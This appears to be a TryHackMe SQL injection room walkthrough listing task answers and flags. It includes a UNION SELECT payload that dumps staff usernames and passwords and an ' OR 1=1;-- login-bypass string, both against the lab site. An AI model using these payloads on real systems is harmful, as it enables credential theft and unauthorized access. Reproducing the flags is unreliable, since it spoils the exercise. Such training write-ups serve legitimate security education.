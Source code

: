 # SQL Injection - TryHackMe

Learn how to detect and exploit SQL Injection vulnerabilities

## Overview

- **Room URL:** [https://tryhackme.com/room/sqlinjectionlm](https://tryhackme.com/room/sqlinjectionlm)
- **Difficulty:** Medium
- **Time to complete:** 30

## Walkthrough

### 1. Brief

- What does SQL stand for?<br />

**=> Answer: `Structured Query Language`**

### 2. What is a Database?

- What is the acronym for the software that controls a database?<br />

**=> Answer: `DBMS`**

- <p>What is the name of the grid-like structure which holds the data?<br /></p>

**=> Answer: `table`**

### 3. What is SQL?

- What SQL statement is used to retrieve data?<br />

**=> Answer: `SELECT`**

- <p>What SQL clause can be used to retrieve data from multiple tables?<br /></p>

**=> Answer: `UNION`**

- <p>What SQL statement is used to add data?<br /></p>

**=> Answer: `INSERT`**

### 4. What is SQL Injection?

- What character signifies the end of an SQL query?<br />

**=> Answer: `;`**

### 5. In-Band SQLi

- What is the flag after completing level 1?<br />

- Enter the url to get the martin's password:

```
https://website.thm/article?id=0 UNION SELECT 1,2, GROUP_CONCAT(CONCAT(username,':',password) SEPARATOR '<br>') FROM staff_users--
```

![Guide image](./screenshots/sql-injection-1.png)

**=> Answer: `THM{SQL_INJECTION_3840}`**

### 6. Blind SQLi - Authentication Bypass

- What is the flag after completing level two? (and moving to level 3)<br />

- Enter this value to the password field to bypass the login form

```
' OR 1=1;--
```

**=> Answer: `THM{SQL_INJECTION_9581}`**

### 7. Blind SQLi - Boolean Based

- What is the flag after completing level three?<br />

**=> Answer: `THM{SQL_INJECTION_1093}`**

### 8. Blind SQLi - Time Based

- What is the final flag after completing level four?<br />

**=> Answer: `THM{SQL_INJECTION_MASTER}`**

### 9. Out-of-Band SQLi

- Name a protocol beginning with D that can be used to exfiltrate data from a database.<br />

**=> Answer: `DNS`**

### 10. Remediation

- Name a method of protecting yourself from an SQL Injection exploit.<br />

**=> Answer: `Prepared Statements`**
